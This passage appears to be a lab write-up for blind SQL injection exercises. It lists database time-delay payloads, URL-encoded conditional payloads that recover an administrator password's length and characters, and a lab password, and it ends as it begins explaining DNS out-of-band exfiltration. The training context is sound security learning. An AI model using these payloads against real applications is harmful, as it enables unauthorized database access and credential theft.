 > **To solve the lab  , exploit the SQLI to cause a 10 seconed delay.**

> **Time delays:
> Oracle:  `dbms_pipe.receive_message(('a'),10)`
> MIcrosoft:  `WAITFOR DELAY '0:0:10'`
> PostgreSQL: `SELECT pg_sleep(10)`
> MySQL: `SELECT sleep(10)`**

> **After Trying every payload the PostgreSQL one work with me.**

![](https://i.ibb.co/gWjVHY7/Pasted-image-20210526030609.png)

#### Lab D: Blind SQL injection with time delays and information retrieval.

> **To solve the lab, log in as the `administrator` user.**

> **In this challenge we will use conditional time delays.
> Oracle: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
> Microsoft:  `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
> PostgreSQL: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
> MySQL:  `SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`**

> **Payload: `'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`**

![](https://i.ibb.co/Sn2B6Z9/Pasted-image-20210526033410.png)

* **Now let's Retrieve administrator Password**

> **We need to know the length of the admin password and we will use this Payload: `'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`**
> **Password Length: 20**

![](https://i.ibb.co/CsZZKvv/Pasted-image-20210526033816.png)


> **Now let's retrieve the password with this payload: `'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
> Password: `k4ne7zofveqz5xvvlp4m`**

![](https://i.ibb.co/w48TkVx/Pasted-image-20210526221938.png)

![](https://i.ibb.co/ZVkh0V2/Pasted-image-20210526222046.png)


#### Lab E: Blind SQL injection with out-of-band interaction.

> **Now, suppose that the application carries out the same SQL query, but does it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute an SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.
> In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.
> A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.**
